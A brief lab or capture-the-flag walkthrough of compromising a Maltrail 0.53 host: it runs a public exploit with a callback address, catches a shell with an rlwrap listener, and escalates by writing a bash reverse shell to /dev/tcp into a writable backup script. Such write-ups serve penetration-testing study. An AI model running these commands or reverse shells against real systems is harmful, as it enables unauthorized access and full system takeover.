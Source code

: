 ![](../attachment/f77917e51eee347658150eab5e495b0f.png)

Using this [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main) for Maltrack 0.53  but it might work on 0.52:
```
python3 exploit.py 192.168.45.229 8338 http://192.168.182.32:8338
```
Setting up a listener:
```
sudo rlwrap -nlvp 8338
```
![](../attachment/acb5da4f6d68b9c1b4311689c2bbc857.png)

Running pspy64:
![](../attachment/25ad0bd02b9c969de26137f66608bf67.png)
Checking permissions for etc_Backup.sh:
![](../attachment/fb00f897ef7c75d3581ffa20d98745b2.png)
We can write to it.

```
echo '#!/bin/bash' > etc_Backup.sh
echo 'bash -i >& /dev/tcp/192.168.45.229/80 0>&1' >> etc_Backup.sh
```

Now we get a shell:
![](../attachment/32b817b433bdce387ee006d17b122587.png)
We used penelope to catch the shell in this image.

